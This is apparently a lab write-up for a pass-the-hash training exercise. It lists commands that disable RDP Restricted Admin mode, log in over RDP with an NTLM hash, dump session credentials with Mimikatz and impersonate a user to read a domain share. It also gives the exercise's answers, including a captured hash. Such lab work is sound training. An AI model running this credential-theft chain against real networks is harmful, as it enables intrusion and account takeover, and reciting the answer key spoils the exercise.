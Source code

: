 <mark style="color:green;">**DisableRestrictedAdmin**</mark>

**Connect via RDP and use Mimikatz located in c:\tools to extract the hashes presented in the current session. What is the NTLM/RC4 hash of David's account?**

`reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f`

`xfreerdp /v:10.129.92.104 /u:administrator /pth:30B3783CE2ABF1AF70F77D0660CF3453`

`run mimikatz`

privilege::debug

sekurlsa::logonpasswords full

<figure><img src=".gitbook/assets/image (175).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (176).png" alt=""><figcaption></figcaption></figure>

<mark style="color:green;">**c39f2beb3d2ec06a62cb887fb391dee0**</mark>

**Using David's hash, perform a Pass the Hash attack to connect to the shared folder \DC01\david and read the file david.txt.**

*   MIMIKATZ

    * `sekurlsa::pth /user:david /rc4:c39f2beb3d2ec06a62cb887fb391dee0 /domain:inlanefreight.local /run:cmd.exe`

    <figure><img src=".gitbook/assets/image (179).png" alt=""><figcaption></figcaption></figure>

    * `dir \dc01\david`
    * `type \dc01\david\david.txt`

